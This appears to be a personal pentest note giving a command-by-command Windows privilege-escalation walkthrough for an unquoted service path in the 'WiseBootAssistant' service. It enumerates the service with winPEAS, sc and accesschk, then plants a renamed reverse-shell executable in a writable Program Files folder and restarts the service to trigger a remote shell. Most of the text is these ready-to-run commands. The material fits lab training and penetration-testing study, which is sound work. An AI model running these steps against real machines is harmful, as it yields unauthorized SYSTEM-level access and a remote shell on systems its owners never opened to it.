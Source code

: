 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

1. Run winPEAS to check for service misconfigurations:

```command prompt - windows
.\winPEASx64.exe quiet servicesinfo
```

2. Note that the “unquotedsvc” service has an unquoted path that also contains spaces:

![[Pasted image 20220112132841.png | 1000]]

3. Confirm this using sc:
```command prompt - windows
sc qc WiseBootAssitant
```
4. Use accesschk.exe to check for write permissions:

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk64.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```

5. Copy the reverse shell executable and rename it appropriately:

[[1._Reverse Shells (WIN)#MSFVenom]]


![[Pasted image 20220112132935.png | 1000]]


```command prompt - windows
copy C:\PrivEsc\reverse.exe "C:\Program Files (x86)\Wise\Wise.exe"
```

6. Stop the service

```command prompt - windows
sc stop WiseBootAssistant
```

```command prompt - windows
sc query WiseBootAssitant
```

![[Pasted image 20220112133219.png | 1000]]

6. Start a listener on Kali, and then start the service to trigger the exploit:

![[rlwrap]]

```command prompt - windows
net start WiseBootAssitant
```

Visual example:

```command prompt - windows
.\winPEAS.exe quiet servicesinfo
```

![[Pasted image 20211229122911.png]]

```command prompt - windows
sc qc WiseBootAssistant
```

![[Pasted image 20211229122948.png]]

```command prompt - windows
.\accesschk64.exe /accepteula -ucqv Aaron WiseBootAssistant
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq C:\
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\"
```

```command prompt - windows
.\accesschk.exe /accepteula -uwdq "C:\Program Files (x86)\Wise\"
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`

